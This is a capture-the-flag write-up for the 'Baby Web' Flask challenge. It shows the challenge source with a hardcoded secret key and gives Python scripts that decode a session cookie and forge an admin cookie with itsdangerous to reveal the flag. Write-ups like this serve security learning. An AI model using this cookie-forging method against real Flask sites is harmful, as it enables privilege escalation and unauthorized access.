




# Baby Web

> I just learnt how to design my favourite flask webpage using htmx and bootstrap. I hope I don't accidentally expose my super secret flag.
> 
> Author: Junhua
>
> http://challs.nusgreyhats.org:33338/

Solution:

We are given with the source file for the challenge: `main.py`

```python
import os
from flask import Flask, render_template, session

app = Flask(__name__)
app.secret_key = "baby-web"
FLAG = os.getenv("FLAG", r"grey{fake_flag}")


@app.route("/", methods=["GET"])
def index():
    # Set session if not found
    if "is_admin" not in session:
        session["is_admin"] = False
    return render_template("index.html")


@app.route("/admin")
def admin():
    # Check if the user is admin through cookies
    return render_template("admin.html", flag=FLAG, is_admin=session.get("is_admin"))

### Some other hidden code ###


if __name__ == "__main__":
    app.run(debug=True)
```

Oh! The secret key seems revealed here, let's double-check if it is indeed the secret key.

```python
import requests
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

def decoedFlaskCookie(secretKey, cookie):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secretKey, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.loads(cookie)

url = 'http://challs.nusgreyhats.org:33338/'

response = requests.get(url)

cookies = response.cookies.items()[0][1]

secretKey = 'baby-web'

decodedCookie = decoedFlaskCookie(secretKey, cookies)
print("Decoded cookie:", decodedCookie)
```

```
Decoded cookie: {'is_admin': False}
```

Oh! That is indeed the secret key 😂

Let's impersonate as admin and access the `/admin` route to get the flag...

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

def encodeFlaskCookie(secretKey, session):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secretKey, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.dumps(session)

secretKey = 'baby-web'

sessionData = {'is_admin': True}
forgedCookie = encodeFlaskCookie(secretKey, sessionData)
print("Forged cookie:", forgedCookie)
```

We got `eyJpc19hZG1pbiI6dHJ1ZX0.ZiQIIQ.HZ2Mw3loo_GuvQrOWrusqvT46cs`, time to use it!



Hmm, still hidden.



Oh, a hidden button which can lead to the flag :D





There we go!

Flag: `grey{0h_n0_mY_5up3r_53cr3t_4dm1n_fl4g}`